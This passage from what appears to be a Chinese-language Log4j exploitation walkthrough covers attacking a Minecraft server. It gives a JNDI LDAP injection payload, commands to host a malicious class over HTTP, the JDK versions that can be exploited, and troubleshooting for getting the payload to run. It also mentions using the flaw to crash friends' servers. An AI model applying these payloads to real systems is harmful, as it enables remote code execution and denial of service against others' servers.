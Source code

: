 后面的效果实操的时候再演示，或者可以看我发的视频





## 坑

这其实就是漏洞的攻击过程，也就意味着我们在每个地方都摔过跤。。。orz

1. 客户端发送请求不加类名或错误类名，服务器只能与攻击机`ldap`服务器建立连接，但无法进行寻找等操作。（其实这也是一种攻击方式，就是b站很多利用`log4j`漏洞恶搞小伙伴的方法，它有点类似DOS攻击，因为它找不到文件所以会一直请求，导致原本应该处理的操作被延后，反应出来的情况就是小伙伴卡顿，甚至服务器mc程序崩溃。本地测试和内网测试的时候也时不时把弄崩溃）

   ```
   ${jndi:ldap://ip:port/#类名}
   ```

2. `minecraft`客户端输入语句正确，服务器成功执行`ldap`请求，`ldap`服务器接收到请求，显示重定向到`http server`上对应的恶意类文件，但`http server`未收到请求。确保`http server`上文件可以访问的情况下，查看运行`minecraft`服务器的`Java`版本是否是可以利用的版本

   ```
   python开启http server：
   python -m http.server {port}
   (在哪个文件夹运行命令就将该文件夹作为httpServer的根目录)
   
   查看http server里的文件是否可以请求：
   curl http://ip:port/filename
   
   查看Java版本:
   java -version
   这是我的
   java version "1.8.0_181"
   Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
   Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
   
   jdk版本：6u211 / 7u201 / 8u191 / 11.0.1以下(不包括)
   ```

3. `ldap`服务器成功重定向给`http`服务器，`mc`服务器成功拿到恶意类，但没有执行，反而`mc`服务器程序直接崩溃报错，这里我遇到两种情况：

   1. 编译恶意类的Java版本与运行mc服务器的Java版本不对应
   
      ```
      Time: 21-12-25 上午11:04
      Description: Exception in server tick loop
      
      java.lang.UnsupportedClassVersionError: h3W has been compiled by a more recent version of the Java Runtime (class file version 58.0), this version of the Java Runtime only recognizes class file versions up to 52.0
      
      翻译过来意思就是h3W这个类编译时用的是58.0这个版本编译的，而运行时却是52.0，所以报错。因为我是在本地编译这个恶意类的，而我本地默认Java版本为14，mc服务器上的Java默认版本为8，所以会报错。
      
      这里有两个解决方法：
      1、在本地使用Java8重新编译生成该恶意类		√
      2、将mc服务器的Java环境改为14，但这显然不现实，因为本来你就是个攻击者，别人怎么可能改环境配合你，更何况mc1.16.5需要Java8的环境才能启动		×
      ```
   